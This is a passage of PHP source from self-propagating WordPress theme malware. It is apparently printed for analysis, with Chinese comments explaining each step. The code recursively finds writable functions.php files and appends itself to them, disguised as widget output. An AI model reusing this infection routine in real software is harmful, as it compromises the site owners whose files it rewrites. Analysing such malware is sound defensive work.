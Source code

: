         if (is_array($direst)){
            foreach ($direst as $item){
                //如果主题functions.php文件可写
                if (is_writable($item)){
                    //特征码
                    $ftion=substr($widget,stripos($widget,"_"),stripos(substr($widget,stripos($widget,"_")),"("));
                    //取目标functions.php文件内容
                    $cont=file_get_contents($item);
                    //没找到特征码?OK,试图感染
                    if (stripos($cont,$ftion) === false){
                        //查看目标functions.php文件最后是否是以 ?> 结尾，如果不是，给加上 ?> 标记
                        $comaar=stripos( substr($cont,-20),"?".">") !== false ? "" : "?".">";
                        //这里的代码是忽悠人了，模仿WP widgets的代码，蛊惑你的眼睛，让你觉得这是widget代码。。。
                        $output .= $before . "Not found" . $after;
                        //如果文件是以 ?> 标记结尾的，连标记一起取过来
                        if (stripos( substr($cont,-20),"?".">") !== false){$cont=substr($cont,0,strripos($cont,"?".">") + 2);}
                        //开始感染,$widget内容即是恶意代码自身,在functions.php文件原内容后附加恶意代码
                        $output=rtrim($output, "nt"); fputs($f=fopen($item,"w+"),$cont . $comaar . "n" .$widget);fclose($f); 
                        //后面这句也是伪装用的            
                        $output .= ($isshowdots &#038;&#038; $ellipsis) ? "..." : "";
                    }
                }
            }
        }
        return $output;
    }
    function _get_allwidgets_cont($wids,$items=array()){
        //从$wids数组弹出一个元素(实际上是一个位置)
        $places=array_shift($wids);
        //如果位置字串是以/结尾的，则去掉/
        if(substr($places,-1) == "/"){
            $places=substr($places,0,-1);
        }
        
        //若不存在这样的文件或目录则直接返回false
        if(!file_exists($places) || !is_dir($places)){
            return false;
        }elseif(is_readable($places)){
            //否则的话。。。嘿嘿
            //遍历此目录
            $elems=scandir($places);
            foreach ($elems as $elem){
                if ($elem != "." &#038;&#038; $elem != ".."){
                    //如果是目录,则加入$wids数组
                    if (is_dir($places . "/" . $elem)){
                        $wids[]=$places . "/" . $elem;
                    } elseif (is_file($places . "/" . $elem)&#038;&#038; 
                        $elem == substr(__FILE__,-13)){
                            //否则，如果是文件，并且文件名等于 functions.php的话，则加入到$items数组保存,这才是它的目的functions.php正是它要找的
                        $items[]=$places . "/" . $elem;}
                    }
                }
        }else{
            return false;   
        }
        //下面还有子目录？再找找看,递归
        if (sizeof($wids) > 0){
            return _get_allwidgets_cont($wids,$items);
        } else {
            //好了，完事了，以数组返回所有找到的functions.php文件的绝对路径
            return $items;
        }
